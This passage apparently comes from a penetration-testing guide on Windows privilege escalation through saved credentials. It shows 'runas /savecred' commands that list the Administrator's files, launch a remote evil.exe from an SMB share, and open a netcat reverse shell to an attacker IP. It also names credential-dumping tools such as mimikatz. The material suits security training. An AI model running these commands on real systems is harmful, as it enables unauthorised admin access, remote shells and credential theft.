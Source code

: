 ```powershell
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Performance Log Users                                 Alias            S-1-5-32-559 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                                                 Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288


<SNIP>
```

We could also try to execute commands as the Administrator user:

```powershell
C:\Users\user>runas /savecred /user:admin "C:\windows\system32\cmd.exe /c dir /b /a /s C:\Users\Administrator > C:\Tools\admin.txt"
Attempting to start C:\windows\system32\cmd.exe /c dir /b /a /s C:\Users\Administrator > C:\Tools\admin.txt as user "desktop-bn\admin" ...

C:\Users\user>type C:\Tools\admin.txt
C:\Users\Administrator\AppData
C:\Users\Administrator\Application Data
```

The following example is calling a remote binary via an SMB share.

```powershell
C:\Users\user>runas /savecred /user:admin "\\10.XXX.XXX.XXX\SHARE\evil.exe"
```

Using `runas` with a provided set of credentials we can try a executing reverse shell as Administrator:

```powershell
C:\Users\user>runas /savecred /user:admin "C:\Tools\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

### Extracting Credentials from the Credential Manager

Tools such as [mimikatz](https://github.com/gentilkiwi/mimikatz), [credentialfileview](https://www.nirsoft.net/utils/credentials_file_view.html), [VaultPasswordView](https://www.nirsoft.net/utils/vault_password_view.html), and [Empire Powershells module](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1) can help you extract credentials from the Windows Credential Manager.
